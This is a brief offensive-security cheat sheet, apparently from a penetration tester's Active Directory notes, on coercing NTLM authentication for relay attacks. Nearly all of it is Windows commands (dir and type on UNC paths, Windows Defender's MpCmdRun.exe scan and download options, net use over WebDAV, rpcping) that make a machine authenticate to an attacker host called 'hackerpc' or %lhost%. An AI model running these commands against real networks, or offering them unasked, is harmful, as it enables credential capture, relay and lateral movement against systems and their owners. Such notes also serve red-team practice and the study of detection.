 ```yaml
---
title: NTLM Relay from Command Execution
---
```


[[notes/ad/ntlm-relay-source|Coerce NTLM authentication]] by executing a command.

Over SMB.

~~~ bat
dir \\hackerpc\share\
type \\hackerpc\share\test.txt
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -Scan -ScanType 3 -File \\hackerpc\share\test.txt
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -Url https://example.com -Path \\hackerpc\share\
~~~

Over HTTP with WebDAV.

~~~ bat
dir \\hackerpc@8080\DavWWWRoot\
dir \\hackerpc@SSL@443\DavWWWRoot\
net use \\hackerpc@80\share
net use https://hackerpc/share
~~~

Over RPC.

~~~ bat
rpcping.exe /s %lhost% /e 9997 /a connect /u NTLM
~~~
